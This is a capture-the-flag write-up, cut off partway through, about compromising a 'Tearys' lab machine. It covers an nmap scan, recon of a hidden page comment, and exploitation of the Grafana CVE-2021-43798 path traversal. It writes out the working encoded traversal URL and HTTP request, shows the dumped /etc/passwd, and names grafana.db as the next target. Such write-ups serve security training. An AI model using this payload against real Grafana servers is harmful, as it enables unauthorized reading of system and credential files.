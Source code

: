 # Challenge Name: Tearys


![date](https://img.shields.io/badge/date-19.03.2021-brightgreen.svg)  
![](https://img.shields.io/badge/Unsolved-red.svg)  
![category](https://img.shields.io/badge/category-Machines-blueviolet.svg)   
![level](https://img.shields.io/badge/level-Medium-blue.svg)
![score](https://img.shields.io/badge/score-100-blue.svg)

## Description

Get The highest privilege on the machine and find the flag!
Target IP: 18.156.136.169

## Notes

I started by running a nmap scan

```bash
nmap -sC -sV 18.156.136.169                                                                                                          130 ⨯ 2 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2022-03-19 03:37 UTC
Nmap scan report for ec2-18-156-136-169.eu-central-1.compute.amazonaws.com (18.156.136.169)
Host is up (0.11s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3f:37:a7:cb:4d:fa:8c:a7:53:e6:e7:f4:76:43:3d:c1 (RSA)
|   256 af:78:ae:60:77:25:44:23:6e:a9:2f:8e:a5:19:f5:62 (ECDSA)
|_  256 07:8c:df:7c:a0:88:a4:28:c2:06:90:62:92:7f:e8:8f (ED25519)
80/tcp   open  http            Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Our Team
8888/tcp open  sun-answerbook?
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sat, 19 Mar 2022 03:38:21 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   GenericLines, Help, LSCP, RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sat, 19 Mar 2022 03:38:21 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sat, 19 Mar 2022 03:38:21 GMT
|_    Content-Length: 0
```

We have 3 ports : 22, 80, 8888

Checking the web server at port 80 http://18.156.136.169/

![image](https://user-images.githubusercontent.com/72421091/159179906-0a30d586-4973-4ab7-803b-f856f3e1cd82.png)

if we check the source page we can see a hidden comment view-source:http://18.156.136.169/

```
                <!-- 
      <div class="team-content">
          <h3 class="name">Bob Frank</h3>
          <h4 class="title">Security Officer</h4>
        </div>

        <ul class="social">
          <li><a href="" class="fa fa-facebook" aria-hidden="true"></a></li>
          <li><a href="" class="fa fa-twitter" aria-hidden="true"></a></li>
          <li><a href="mailto:bob@tearys.corp" class="fa fa-google-plus" aria-hidden="true"></a></li>
          <li><a href="" class="fa fa-linkedin" aria-hidden="true"></a></li>
        </ul>
      </div>
    </div>
```  

So now we have some information about the target :
- Name : Bob Frank
- Job : Security Officer
- Email : bob@tearys.corp
- Domain name : tearys.corp

Let's check now the port 8888 http://18.156.136.169:8888/ 

We have a grafana dashboard 

![image](https://user-images.githubusercontent.com/72421091/159180077-29948a6a-6c97-4675-8021-f9af355693cb.png)

As we can see the version is v8.2.6, let's search for vulnerabilities

Grafana v8.2.6 is vulerable to CVE-2021-43798 wich is an unauthorized arbitrary file reading vulnerability  

https://j0vsec.com/post/cve-2021-43798/

We have an exploit for it https://www.exploit-db.com/exploits/50581 

The exploit didn't work so i added a print(url) to the exploit to debug it

```bash
┌──(kali㉿kali)-[~]
└─$ python3 exploit.py -H http://18.156.136.169:8888/
Read file > /etc/passwd
http://18.156.136.169:8888//public/plugins/opentsdb/../../../../../../../../../../../../../etc/passwd
<!doctype html><html lang="en"><head><meta charset="utf-8"/><meta http-equiv="X-UA-Compatible" content="IE=
```
The exploit was able to found a plugin **opentsdb** but failed to perform LFI

Let's decode the payload i'll use Burp

```http
GET /public/plugins/opentsdb/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F../etc/passwd HTTP/1.1
Host: 18.156.136.169:8888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```
We were able to read the /etc/passwd file 

http://18.156.136.169:8888/public/plugins/opentsdb/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F../etc/passwd

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin
```
We need to find more files, i used burp with linux files and also known grafana files to be able to find some files 

**/etc/grafana/grafana.ini**
- nothing special is the default file

**/var/lib/grafana/grafana.db**

